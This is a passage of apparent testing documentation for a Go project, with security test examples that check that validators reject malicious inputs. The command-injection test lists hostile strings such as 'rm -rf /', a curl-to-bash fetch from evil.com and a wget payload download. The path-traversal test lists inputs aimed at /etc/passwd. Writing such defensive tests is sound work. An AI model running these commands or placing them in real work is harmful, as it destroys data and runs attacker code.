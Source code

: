 3. **WebSocket Security**
   - Origin validation
   - CSRF protection
   - Connection hijacking prevention

4. **Input Validation**
   - Component name validation
   - Configuration parameter validation
   - Request payload validation

### Security Test Examples

```go
// Command injection test
func TestSecurity_ValidateCustomCommand(t *testing.T) {
    maliciousCommands := []string{
        "npm test; rm -rf /",
        "go test && curl evil.com/shell.sh | bash",
        "make build || wget malicious.com/payload",
    }
    
    for _, cmd := range maliciousCommands {
        err := validateCustomCommand(cmd)
        assert.Error(t, err, "Should reject: %s", cmd)
    }
}

// Path traversal test
func TestSecurity_ValidateComponentName(t *testing.T) {
    maliciousNames := []string{
        "../../../etc/passwd",
        "..\\..\\windows\\system32\\config",
        "component/../../sensitive",
    }
    
    for _, name := range maliciousNames {
        err := validateComponentName(name)
        assert.Error(t, err, "Should reject: %s", name)
    }
}
```

## Continuous Improvement

### Test Maintenance

1. **Regular Review**: Test cases are reviewed monthly for relevance
2. **Performance Updates**: Benchmark baselines updated quarterly
3. **Security Updates**: Security tests updated with new threat patterns
4. **Coverage Monitoring**: Test coverage maintained above 80%

### Adding New Tests
